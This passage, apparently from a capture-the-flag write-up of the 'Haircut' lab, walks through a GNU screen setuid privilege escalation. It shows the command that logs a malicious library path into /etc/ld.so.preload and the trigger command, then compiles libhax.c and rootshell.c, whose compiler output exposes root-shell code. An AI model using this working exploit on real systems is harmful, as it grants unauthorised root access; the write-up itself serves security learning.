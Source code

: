 It simply sets all the user and group ids to root and runs `/bin/sh`.

Now to the exploit. It’ll move into `/etc`, and then run the following `screen` command:

```

screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed

```

The options are as follows:
- `-D -m` - Start `screen` in “detached” mode, but don’t fork a new process, exiting when the session terminates
- `-L ld.so.preload` - turn on automatic output logging for the window
- `echo -ne "\x0a/tmp/libhax.so"` - command to run in the session, printing a newline followed by the path to the malicious library

So this will start screen output the path to the library, which will be logged to the `/etc/ld.so.preload` file, and then exit.

`/etc/ld.so.preload` holds a list of libraries that will attempt to be loaded each time any program is run. So the next time something runs as root, the malicious library will run as root. The script kicks that off by calling screen again:

```

screen -ls # screen itself is setuid, so... 

```

Finally, it will call the now SUID `/tmp/rootshell`.

### Run It

I tried to just upload the script to Haircut and run it, but it had some issue compiling things locally. I resorted to compiling locally on my host. I’ll create the two c files on my VM, and then compile them:

```

root@kali# gcc -fPIC -shared -ldl -o libhax.so libhax.c 
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
root@kali# gcc -o rootshell rootshell.c 
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
```